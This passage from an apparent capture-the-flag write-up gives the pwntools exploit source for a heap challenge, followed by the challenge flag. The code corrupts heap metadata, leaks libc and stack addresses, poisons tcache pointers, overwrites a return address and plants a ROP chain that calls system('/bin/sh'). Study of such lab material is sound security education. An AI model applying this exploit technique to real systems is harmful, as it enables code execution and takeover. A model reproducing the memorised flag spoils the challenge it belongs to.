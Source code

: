 ```py
#Re-allocate it
create(b'4',0x10,b'E'*0x10)
#Overflow the size of chunk 4 so it becomes 0x421 big
edit(b'1',b'3\x003',b'A'*0x10 + p64(0x21) + b'A'*0x18 + p64(0x421))
#Free chunk 4
delete(b'4')

#Restore the first chunk to original name
edit(b'3\x003',b'1',b'a')
#Overflow up to the libc ptr in chunk 4 to leak
edit(b'1',b'3\x003',b'A'*0x38)
libc_leak = u64(show_rune(b'2').split(b'A'*0x18)[1][:-1].ljust(8,b'\x00'))
libc_base = libc_leak - 0x1f2cc0
log.info(f"LIBC BASE: {libc_base:#x}")


libc_argv = libc_base+0x1f46e0
over_write_val = obfuscate(heap_base,libc_argv-0x10)

#Overwrite free ptr with __libc_argv address
delete(b'E')
delete(b'F')
delete(b'G')

edit(b'D',b'5\x005',b'A'*0x10+p64(0x21)+b'A'*0x20 + p64(over_write_val))

create(b'E',0x10,b'H'*0x10)
create(b'F',0x10,b'H'*0x10)
create(b'G',0x10,b'A'*8)

#Leak stack
stack_leak = u64(show_rune(b'G')[8:-1].ljust(8,b'\x00'))
log.info(f"STACK LEAK: {stack_leak:#x}")

edit(b'5\x005',b'D',b'a')

#Overwrite free pointer with return pointer address of edit
delete(b'I')
delete(b'H')
delete(b'J')

ret_ptr = stack_leak-0x148
edit(b'K',b'5\x005',b'A'*0x28 + p64(obfuscate(heap_base,ret_ptr)))
create(b'L',0x20,b'a')
create(b'M',0x20,b'b')

#Allocate a ROP chain.
poprdi = p64(libc_base+0x000000000002daa2)
binsh = p64(libc_base+0x001b4689)
system = p64(libc_base+0x4e320)

create(b'N',0x20,poprdi+binsh+system)

io.interactive()
```

## Flag
`HTB{k1ng_0f_h4sh1n_4nd_m4st3r_0f_th3_run3s}`

